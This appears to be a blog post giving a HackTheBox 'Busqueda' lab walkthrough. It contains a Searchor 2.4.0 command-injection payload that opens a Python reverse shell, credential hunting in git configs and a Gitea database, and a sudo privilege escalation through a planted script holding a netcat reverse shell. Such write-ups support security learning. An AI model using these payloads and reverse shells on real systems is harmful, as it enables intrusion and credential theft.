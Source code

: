 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .

# mysql connect gitea : yuiu1hoiu4i5ho1uh
mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 172.19.0.3 gitea

## in mysql
select name, email, passwd from user;

# in web
## administrator : yuiu1hoiu4i5ho1uh / 재사용 되는 지 확인
echo "10.129.228.217 gitea.searcher.htb" | sudo tee -a /etc/hosts
http://gitea.searcher.htb/cody/Searcher_site.git

# full-checkup 로직 확인 및 Abuse
echo -e '#!/bin/bash\n\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 4444 >/tmp/f' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9d0cfd2413ed62917f246c9ddb5ec3b6_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/5e3b73d1e6163d460302eb52671092d4_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/65ff7bcd2b912a2a00de613dc6410d87_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9429e95a836018be908e461439bff6b7_MD5.jpeg)![](assets/images/posts/2025-03-21-Busqueda/489bc426f4f2e98d390eadad6483fc11_MD5.jpeg)